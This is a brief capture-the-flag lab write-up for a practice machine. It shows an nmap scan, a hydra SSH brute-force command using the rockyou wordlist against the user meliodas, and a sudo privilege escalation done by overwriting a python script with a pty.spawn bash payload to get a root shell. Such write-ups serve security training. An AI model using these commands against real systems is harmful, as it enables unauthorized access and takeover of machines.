 nmap   
port 80, 22  
http://10.10.67.238/robots.txt  -> gives rockyou hint   . rockyou is associated with hydra brute force  
http://10.10.67.238/ -> we have a post by user meliodas   
## hydra  
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt  ssh://10.10.67.238  
We get a password for meliodas   
ssh  
we get the user flag  
(ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py  
change this file to   
#!/usr/bin/env python  
import pty  
pty.spawn("/bin/bash")  
sudo /usr/bin/python /home/meliodas/bak.py   
We get shell as root  
cat /root/root.txt  
